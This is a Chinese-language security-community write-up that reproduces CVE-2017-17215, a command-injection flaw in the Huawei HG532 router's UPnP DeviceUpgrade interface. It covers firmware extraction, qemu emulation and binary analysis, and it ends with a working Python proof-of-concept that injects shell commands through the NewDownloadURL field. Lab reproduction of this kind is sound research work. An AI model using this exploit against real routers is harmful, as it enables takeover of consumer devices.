# 华为HG532路由器RCE漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/17507  
> **文章ID**: 17507

---

### 华为HG532路由器RCE漏洞

​ 这个漏洞比较老了，而且复现起来没有特别复杂，漏洞编号是`CVE-2017-17215`,`CVE-2017-17215`是`CheckPoint`团队披露的远程命令执行（`RCE`）漏洞，存在于华为`HG532`路由器中。

​ 漏洞存在于设备实现的 **UPnP (Universal Plug and Play)** 服务中，具体是 `DeviceUpgrade` **SOAP 接口**处理不当，攻击者可以通过 `NewDownloadURL` 参数注入任意命令。由于设备未正确验证该参数，攻击者可以通过精心构造的请求，远程执行任意系统命令。

漏洞披露：<https://research.checkpoint.com/2017/good-zero-day-skiddie/>

​ 对于没有硬件的来说（当然大多数都是没有硬件的），那么就需要进行仿真，通过**qemu**这个强大的虚拟化和仿真工具可以帮助完成仿真的过程，接下来对这个漏洞进行复现

### 复现环境：Ubuntu20.04TLS

#### 工具准备

当然首先就是刚刚提到的qemu，因为需要模拟mips环境，下面是它的安装命令

```
sudo apt-get install qemu 
sudo apt-get install qemu-user-static
sudo apt-get install qemu-system
```

然后是分离固件的binwalk以及其配套工具sasquatch，不然在提取固件的时候解压不出来文件系统等

```
sudo apt install binwalk
git clone https://github.com/devttys0/sasquatch
```

现在仿真工具有了，那么还需要对仿真后的虚拟机进行通信也就是网桥br0，因为后来需要通过scp命令将宿主机的分解的文件系统传输上去

#### 网络准备

安装网桥相关工具，然后设置

安装网络配置工具：`apt-get install bridge-utils uml-utilities`  
开启：`sysctl -w net.ipv4.ip_forward=1`以便进行ip转发实现RCE

然后在网络接口配置文件`/etc/network/interfaces`里面进行输入

```
# Loopback 接口配置
auto lo
iface lo inet loopback

# 配置桥接网络 br0
auto br0
iface br0 inet dhcp
    bridge_ports ens33
    bridge_stp off
    bridge_fd 0
    bridge_maxwait 0

# 将物理接口 ens33 用作桥接端口，不单独配置
allow-hotplug ens33
iface ens33 inet manual
```

当然这里根据实际情况进行修改，我的网络接口是ens33，有些没有进行统一改名的网络接口名字叫eth0，只需要把ens33换个名字就行

配置完成只后还需要重启一下网络服务

```
sudo systemctl restart networking
```

### 分离固件

使用binwalk进行递归扫描提取

```
binwalk -Me HG532eV100R001C02B015_upgrade_main.bin 
```

结果在解压的时候出现了一个报错



大概意思是capstone没有ARM64这个属性，查阅资料发现有一个Kali bug 报告的东西



既然没有这个属性那么久把对应的py文件关于ARM64换成ARM即可，再次尝试正常运行

本人分别在Ubuntu20.04和Ubuntu22.04进行了测试22.04没有相关报错，可能跟Ubuntu的版本有关

此时虽然分离出来了文件系统的镜像squashfs-root，但是里面可能会发现没有对于的文件系统里面是空的，那么就需要下载sasquatch，git下来之后root权限运行build.sh文件开始进行配置，但是其中可能也会遇到一个报错。



`verbose` 是在 `error.h` 中定义的全局变量，通过`extern` 声明。



然后在unsquashfs.c文件里面进行应用，并定义



```
sudo make clean
sudo make && make install 
```

当然进过测试在Ubuntu20.04上面不会报错，Ubuntu22.04可能会发生报错，解决报错之后就可以正常进行固件解压分理出文件系统了

漏洞出现在/bin目录下面的upnp这个文件



```
    Arch:       mips-32-big
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
```

可以看见它是32位mips大端序并且没有任何的保护，当进行仿真的时候还需要下载，相关的内核以及镜像

下载地址：<https://people.debian.org/~aurel32/qemu/mips/>

需要下载该目录下的`vmlinux-2.6.32-5-4kc-malta`内核以及`debian_squeeze_mips_standard.qcow2`镜像文件

通过wget下载到和同一个目录下

### 启动qemu

写一个启动脚本去指定相应的内核以及镜像，命名为start.sh并加上执行权限，和刚刚下载的内核和镜像在同一个目录下

```
#!/bin/bash
sudo qemu-system-mips \
    -M malta -kernel vmlinux-2.6.32-5-4kc-malta \
    -hda debian_squeeze_mips_standard.qcow2 \
    -append "root=/dev/sda1 console=tty0" \
    -net nic,macaddr=00:16:3e:00:00:01 \
    -net tap
```

然后就可以运行脚本启动qemu了



启动需要一会时间，等出现登录语句的时候即可进行登录，账户和密码默认都是root

进去之后通过ip a命令查看一下网卡



发现是eth1，到配置文件/etc/network/interfaces修改成对于的名称

```
allow-hotplug eth1
iface eth1 inet dhcp
```

修改之后重启qemu，然后就可以通过scp命令把镜像传输进qemu了，根据对于的IP地址进行传输

```
scp -r ./squashfs-root root@192.168.102.143:/root/
```

### 分析漏洞文件

现在开始分析一下有漏洞的二进制文件，把它拖入ida

通过官方报告的字符串NewDownloadURL和NewStatusURL在ida里面进行查找





然后创建一个函数方便进行反编译查看



可以发现这里对输入的标签进行system命令执行，那么通过;{cmd};进行命令拼接即可实现RCE



### 复现漏洞

首先要更换原始镜像文件的根目录为从固件中提取的文件系统的根目录：

```
cd squashfs-root
chroot . sh
```

因为官方报告是通过37215这个端口来通过`/ctrlt/DeviceUpgrade_1`地址发送数据包，才能启用`UPnP`服务。`grep -r '37215'`命令可以查到，`/bin/mic`这个二进制文件中有这个端口，那么运行/bin/mic开启这个端口然后通过nc -vv 192.168.102.143 37215看看是否能成功连接上这个端口

```
root@debian-mips:~/squashfs-root/bin# grep '37215' ./mic
Binary file ./mic matches
nc -vv 192.168.102.143 37215
Connection to 192.168.102.143 37215 port [tcp/*] succeeded!
```

成功连接上之后就可以通过poc来进行利用了

```
import requests

Authorization = "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
headers = {"Authorization": Authorization}

print("-----CVE-2017-17215 HUAWEI HG532 RCE-----
")
cmd = input("command > ")

data = f'''
<?xml version="1.0" ?>
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
    <s:Body>
        <u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
            <NewStatusURL>CH13hh</NewStatusURL>
            <NewDownloadURL>;{cmd};</NewDownloadURL>
        </u:Upgrade>
    </s:Body>
</s:Envelope>
'''

r = requests.post('http://192.168.192.133:37215/ctrlt/DeviceUpgrade_1', headers = headers, data = data)
print("
status_code: " + str(r.status_code))
print("
" + r.text)
```





至此复现完成
